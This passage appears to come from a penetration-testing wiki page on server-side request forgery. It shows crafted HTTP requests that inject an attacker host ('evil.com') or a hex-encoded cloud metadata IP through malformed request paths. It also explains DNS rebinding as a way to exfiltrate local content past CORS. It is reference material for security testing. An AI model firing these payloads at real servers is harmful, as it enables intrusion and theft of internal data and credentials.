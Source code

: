 Vulnerable code:

<figure><img src="../../.gitbook/assets/image (1201).png" alt=""><figcaption></figcaption></figure>

It was discovered that It's possible to **start the path** of a request with character **`;`** which allows to use then **`@`**  and inject a new host to access. Attack request:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```

### PHP Built-in Web Server <a href="#heading-php-built-in-web-server-case-study-ssrf-through-incorrect-pathname-interpretation" id="heading-php-built-in-web-server-case-study-ssrf-through-incorrect-pathname-interpretation"></a>

<details><summary>Vulnerable PHP code</summary></details>

PHP allows the use of the **char `*` before a slash in the path** of the URL, however, it has other limitations like that it can only be used for the root pathname `/` and that dots `.` are not permitted before the first slash, so it's needed to use a dotless-hex encoded IP address for example:

```http
GET *@0xa9fea9fe/ HTTP/1.1
Host: target.com
Connection: close
```

## DNS Rebidding CORS/SOP bypass

If you are having **problems** to **exfiltrate content from a local IP** because of **CORS/SOP**, **DNS Rebidding** can be used to bypass that limitation:

{% content-ref url="../cors-bypass.md" %}
[cors-bypass.md](../cors-bypass.md)
{% endcontent-ref %}

### Automated DNS Rebidding

[**`Singularity of Origin`**](https://github.com/nccgroup/singularity) is a tool to perform [DNS rebinding](https://en.wikipedia.org/wiki/DNS\_rebinding) attacks. It includes the necessary components to rebind the IP address of the attack server DNS name to the target machine's IP address and to serve attack payloads to exploit vulnerable software on the target machine.
